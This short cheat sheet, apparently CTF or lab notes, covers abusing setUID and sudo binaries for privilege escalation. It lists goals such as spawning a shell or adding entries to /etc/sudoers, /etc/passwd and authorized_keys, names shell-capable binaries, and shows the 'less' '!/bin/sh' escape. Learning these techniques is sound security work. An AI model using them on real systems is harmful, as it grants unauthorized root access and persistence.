 What to do with a binary having a setUID bit ?
```
- Run a shell
- Read a flag
- Copy a file
- Add an entry in a file : /etc/sudoers, /etc/passwd, ~/.ssh/authorized_keys
- ...
```








## SUID/Sudo exploitation







## Process to allowing to launch a shell

Many processes allow to launch a shell. Perfect with sudo or a setUID bit.
```
- find
- nmap
- vi
- less
- awk
- tee
...
```

Reference: https://gtfobins.github.io/







## Sudo/SUID bit - less

Less is used to read files. Press q to exit.
```
./less flag.txt
```

To open a shell, open a file, then !/bin/sh
```
./less fichier
!/bin/sh
```






